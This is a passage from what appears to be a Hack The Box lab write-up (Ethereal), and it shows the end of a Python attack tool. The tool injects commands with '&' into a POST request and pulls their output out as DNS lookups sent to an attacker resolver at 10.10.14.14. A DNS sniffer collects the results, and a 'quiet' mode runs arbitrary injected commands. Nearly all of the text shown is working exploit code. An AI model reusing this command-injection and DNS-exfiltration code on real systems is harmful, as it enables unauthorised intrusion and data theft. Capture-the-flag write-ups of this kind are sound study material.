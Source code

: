 ```
 87         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
 88         sys.exit()
 89 
 90 
 91     def default(self, args):
 92         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
 93         self.send_post(command)
 94 
 95 
 96     def do_quiet(self, args):
 97         command = f'& ( {args} )'
 98         self.send_post(command)
 99 
100 
101 #dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
102 dns = dns_sniff()
103 dns.start()
104 
105 term = Terminal(proxy={"http": "http://127.0.0.1:8080"})
106 try:
107     term.cmdloop()
108 except KeyboardInterrupt:
109     term.do_exit()

```

[« Password Box Brute](/2019/03/09/htb-ethereal-pbox.html)[COR Profilers »](/2019/03/15/htb-ethereal-cor.html)